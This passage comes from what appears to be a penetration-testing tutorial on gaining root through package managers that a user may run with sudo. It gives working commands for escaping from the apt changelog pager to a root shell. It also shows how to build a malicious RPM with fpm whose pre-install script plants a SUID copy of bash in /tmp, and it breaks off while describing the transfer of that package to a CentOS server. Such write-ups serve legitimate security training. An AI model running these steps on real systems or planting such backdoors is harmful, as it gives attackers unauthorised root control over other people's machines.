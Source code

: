 ### Method 3: Invoking the default pager

When viewing changelog, apt/apt-get will display it using sensible-pager which is usually set to `less` by default. This means that apt
will run less and because less will also be running as root we can get a root shell from it.

Run the first command then when in the pager interface, run the second command. This also works with apt-get.

```sh
sudo apt changelog apt
!/bin/bash
```

## Exploitation: RPM
Here I have a centos 7 server. Similar to above section we start with a low privileged user that can run `yum` as sudo. 

{{< image src="/img/package_manager_privesc/privesc-9.png" alt="" position="center" style="border-radius: 8px;" >}}

### Method 1: Creating a malicious rpm package

Using the same technique as earlier we'll create a malicious rpm package using fpm. We'll use the ubuntu machine to create the
package then transfer it to the centos server.

In this case dropping into a shell doesn't work, we therefore need to run a command that will give us shell access differently. I will create an
suid bash binary that will give us root access.

We'll create the exploit folder and exploit.sh script inside of /tmp. Then put the below command in the script.

```sh
cd /tmp
mkdir exploit
echo '#!/bin/bash' > exploit/exploit.sh
echo 'cp /bin/bash /tmp/bash' >> exploit/exploit.sh
echo 'chmod +xs /tmp/bash' >> exploit/exploit.sh
```

{{< image src="/img/package_manager_privesc/privesc-10.png" alt="" position="center" style="border-radius: 8px;" >}}

Now we'll create the malicious rpm package using a similar command to the debian package.

```sh
fpm -n exploit -s dir -t rpm --before-install ./exploit/exploit.sh ./exploit
```

{{< image src="/img/package_manager_privesc/privesc-11.png" alt="" position="center" style="border-radius: 8px;" >}}

Then we can transfer it to the centos server by launching a python http server and downloading it.

on ubuntu server:
